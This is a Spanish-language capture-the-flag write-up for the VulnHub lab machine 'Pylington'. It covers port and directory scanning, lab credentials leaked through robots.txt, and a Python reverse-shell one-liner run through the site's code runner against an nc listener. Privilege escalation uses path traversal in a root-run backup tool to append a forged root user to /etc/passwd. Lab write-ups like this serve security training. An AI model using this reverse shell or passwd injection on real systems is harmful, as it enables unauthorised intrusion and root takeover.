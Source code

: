 # Write Up PYLINGTON VulnHub

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sS <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 12:13 EDT
Nmap scan report for 192.168.5.146
Host is up (0.0011s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.5 (protocol 2.0)
| ssh-hostkey: 
|   3072 bf:ba:23:4e:69:37:69:9f:23:ae:21:35:98:4d:39:fa (RSA)
|   256 ed:95:53:52:ef:70:1f:c0:0e:3c:d8:be:35:fc:3a:93 (ECDSA)
|_  256 2d:b8:b0:88:52:83:7b:00:47:31:a4:76:2b:3d:7d:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.46 ((Unix) mod_wsgi/4.7.1 Python/3.9)
|_http-generator: Jekyll v4.1.1
|_http-server-header: Apache/2.4.46 (Unix) mod_wsgi/4.7.1 Python/3.9
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Pylington Cloud | The best way to run Python.
| http-robots.txt: 3 disallowed entries 
|_/register /login /zbir7mn240soxhicso2z
MAC Address: 00:0C:29:5E:53:7E (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   1.07 ms 192.168.5.146

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.11 seconds
```

### Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x php,html,txt -t 50 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.146/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd.html       (Status: 403) [Size: 993]
/.htaccess            (Status: 403) [Size: 993]
/.htpasswd.php        (Status: 403) [Size: 993]
/.htpasswd.txt        (Status: 403) [Size: 993]
/.htaccess.txt        (Status: 403) [Size: 993]
/.htpasswd            (Status: 403) [Size: 993]
/.htaccess.php        (Status: 403) [Size: 993]
/.htaccess.html       (Status: 403) [Size: 993]
/404.html             (Status: 200) [Size: 3305]
/assets               (Status: 200) [Size: 1536]
/favicon.ico          (Status: 200) [Size: 15406]
/index.html           (Status: 200) [Size: 4065]
/login                (Status: 200) [Size: 3475]
/register             (Status: 200) [Size: 3149]
/robots.txt           (Status: 200) [Size: 83]
/robots.txt           (Status: 200) [Size: 83]
/~bin                 (Status: 403) [Size: 993]
/~root                (Status: 403) [Size: 993]
/~mail                (Status: 403) [Size: 993]
/~ftp                 (Status: 403) [Size: 993]
/~nobody              (Status: 403) [Size: 993]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Por lo que podemos ver hay una `/robots.txt/` y si nos metemos dentro encontraremos lo siguiente...

```
User-agent: *
Disallow: /register
Disallow: /login
Disallow: /zbir7mn240soxhicso2z
```

Si nos vamos a la siguiente `URL` llamada `/zbir7mn240soxhicso2z` veremos lo siguiente...

```
Username: steve

Password: bvbkukHAeVxtjjVH
```

Nos dan las credenciales de un usuario llamado `steve` por lo que nos logeamos en `/login/` y cuando metamos esas credenciales, nos pondra un mensaje de bienvenida pinchamos en ese `Welcome back! Steve` y nos redirigira a la `URL` llamada `n8pji3yeaccqvek2uzfc` donde se encontrara por lo que parece una especie de `Output` para enviar comandos mediante `python`...

Si en el `Program` metemos lo siguiente...

```python
i = input("")
exec(i)
```

Y en el `Standard Input` metemos lo siguiente...

```python
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

Lo rellenamos acorde a nuestras necesidades y estando a la escucha...

```shell
nc -lvnp <PORT>
```

Le damos a `run` una vez ejecutado nos creara una `shell` con el servidor...

Si nos vamos a `/home/py/` encontraremos muchas cosas pero entre ellas un minijuego llamado `typing` por lo que haremos lo siguiente...

```shell
./typing
```

Esto iniciara el minijuego y veremos lo siguiente...

```
Let's play a game! If you can type the sentence below, then I'll tell you my password.

the quick brown fox jumps over the lazy dog
```

Por lo que tendremos que responder con la siguiente respuesta...

```
the quick brown fox jumps over the lazy dog
```

Una vez hecho eso nos mostrara la contraseña del usuario `py`...

```
User = py
Password = 54ezhCGaJV
```

Nos conectaremos por `ssh`...

```shell
ssh py@192.168.5.146
```

Metemos la `passeord` y ya estariamos dentro, leemos la flag...

> user.txt (flag1)

```
ee11cbb19052e40b07aac0ca060c23ee
```

Por lo que podremos ver hay un archivo llamado `backup` en una carpeta `secreta` lo podemos ejecutar como `root` de normal, por lo que haremos lo siguiente...

En nuestro `host` generaremos una contraseña para el `passwd`...

```shell
openssl passwd -1 -salt <username> <password>
```

Info:

En mi caso con lo que le implemente me salio esto...

```
$1$diseo$tBqyKr.3ZHUYVzTIqyJg0/
```

Dentro del servidor victima hacemos lo siguiente...

```shell
/home/py/secret_stuff/backup
```

```
Enter a line of text to back up: <USERNAME>:<OPENSSL_GENERATE>:0:0:/root:/bin/zsh

Enter a file to append the text to (must be inside the /srv/backups directory): /srv/backups/../../../../etc/passwd
```

Una vez hecho esto haremos lo siguiente...

```shell
su <USERNAME> 
```

Nos cambiamos al usuario que agregamos al `passwd` y con la contraseña que generamos tambien, por lo que ya seriamos `root`...

Leemos la flag...

> root.txt (flag2)

```
63a9f0ea7bb98050796b649e85481845
```
